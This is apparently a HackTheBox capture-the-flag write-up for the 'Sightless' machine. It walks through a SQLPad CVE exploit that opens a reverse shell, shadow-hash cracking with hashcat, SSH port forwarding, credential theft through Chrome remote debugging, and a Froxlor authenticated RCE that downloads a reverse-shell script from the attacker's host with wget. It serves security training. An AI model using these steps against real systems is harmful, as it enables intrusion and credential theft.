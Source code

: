 ```yaml
---
title: Sightless
tags:
  - HackTheBox
  - Easy
  - SQLPad
  - Brute-Forcing
  - Tunnelling
  - Froxlor
  - Chrome-Debugging
date: 2024-07-19T00:00:00Z
---
```

![](Pasted%20image%2020240919153753.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.32 sightless.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- sightless.htb > sC.txt

[redacted]
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
| ssh-hostkey: 
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
|_  256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
80/tcp open  http
|_http-title: Sightless.htb
```

Let's inspect the website:

![](Pasted%20image%2020240919154637.png)

After inspecting the code, I discovered the subdomain `sqlpad.sightless.htb`:

![](Pasted%20image%2020240919154722.png)

So I added it to the hosts file and took a look to it:

![](Pasted%20image%2020240919154906.png)

## Weaponization

I searched for **"sqlpad 6.10. cve"** and found [sqlpad-rce-exploit-CVE-2022-0944](https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944/tree/main)
- I also found this info in [huntr](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb), which is the PoC that uses the previous exploit
## Exploitation

> I executed the exploit like `python3 exploit.py http://sqlpad.sightless.htb 10.10.14.104 666` and got a reverse shell!

![](Pasted%20image%2020240919160328.png)

We can see that we are inside a container because of the `.dockerenv` file:

![](Pasted%20image%2020240919160812.png)

So as we are root, and after searching inside home directory didn't found anything, we can inspect the `/etc/shadow` file and try to crack michael's hash:
- Check the note [Crack Password Hashes (Sites) 🤡](/notes/crack_password_hashes.md)

```hash
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
```

It seems to be SHA-512:
- `michael` is the username.
- `$6$` indicates the hashing algorithm (SHA-512).
- `mG3Cp2VPGY.FDE8u` is the salt.
- `KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/` is the hash.

We need to format the hash for Hashcat, so we will create a file containing the following:

```txt
$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/
```

So let's use Hashcat to crack the hash:

```shell
hashcat -m 1800 -a 0 -o cracked.txt hashes.txt /usr/share/wordlists/rockyou.txt

[redacted]
$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:insaneclownposse
```

> So we can now ssh as `michael:insaneclownposse` and get user flag :D

![](Pasted%20image%2020240919162039.png)

## Privilege Escalation

Inspecting the `/home` directory seems to be another user called `john`, so I decided to run linpeas:

![](Pasted%20image%2020240919162619.png)

But this wasn't relevant, so I keep looking at linpeas output, and found an interesting port running something:

![](Pasted%20image%2020240919162842.png)

So I port forwarded the port 8080 to my machine:

```shell
ssh -L 8080:localhost:8080 -N michael@sightless.htb
```

The I searched for it:

![](Pasted%20image%2020240919163635.png)

I didn't know what was Froxlor, so I searched for it and found thet is a server management software. As I didn't know the passwd, I decided to take a look at this previous photo:

![](Pasted%20image%2020240919162619.png)+

Which lead me to know that Chrome was installed on the machine. I decided to start port-forwarding all left ports to debug them hoping to find some credentials.
- I found this [Blog](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/) talking about *Chrome Remote Debugger Pentesting*:

1. First, port forward: `ssh -L 40235:localhost:40235 -N michael@sightless.htb`
2. Configure Network Targets in Chrome: 
	- Open Chrome Browser and input the sollowing string in URL bar: `chrome://inspect/#devices`
	- Then click `Configure` and apply the following configuration:

![](Pasted%20image%2020240919165549.png)

Go to inspect the new remote target:

![](Pasted%20image%2020240919165654.png)

![](Pasted%20image%2020240919165744.png)

Inspecting the `index.php` and the Payload option, we can see the credentials in plain text:

![](Pasted%20image%2020240919165954.png)

Credentials are: `admin:ForlorfroxAdmin`. So we log in:

![](Pasted%20image%2020240919170150.png)

I searched for **"Froxlor RCE"** and found this [Blog](https://sarperavci.com/Froxlor-Authenticated-RCE/) which lead to an authenticated RCE:
1. Get the creds
2. Set up custom PHP-FPM Restart Command:
	- Upload a reverse shell to the machine like: `wget http://10.10.14.104:8090/revshell.sh`
	- Go to `PHP >> PHP-FPM versions` and set a custom PHP-FPM restart command:

![](Pasted%20image%2020240919170939.png)

3. Restart PHP-FPM
	- Go to `System >> Settings` and click on PHP-FPM
	- Click on disable and wait a few seconds
	- Click on enable

![](Pasted%20image%2020240919171421.png)

> You must wait 5 minutes to get the reverse shell due to cron jobs (because the PHP-FPM service restarts every 5 minutes)

> After some time we get root access and the root flag :D

![](Pasted%20image%2020240919171626.png)

==Machine pwned!==